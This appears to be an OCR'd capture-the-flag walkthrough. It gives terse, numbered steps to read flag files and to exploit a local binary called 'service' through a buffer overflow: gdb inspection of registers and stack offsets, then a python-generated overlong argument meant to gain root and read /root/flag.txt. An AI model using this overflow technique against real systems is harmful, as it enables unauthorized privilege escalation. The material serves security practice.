 1 cat /root/flag.txt 
2 cd dropbox -> sleep 60 -> cat /tmp/flag.txt
3 gdb ./service -> (gdb) break *0x401331 -> (gdb) run "AAAABBBBCCCCDDDD" -> (gdb) x/s $rbp-0x21 
-> (gdb) x/s $rbp-0x70 -> (gdb) info registers rbp -> (gdb) quit -> ./service $(python3 -c "print('A' * 79 + '22222222')") you should be in root know
when in root enter command  -> cat /root/flag.txt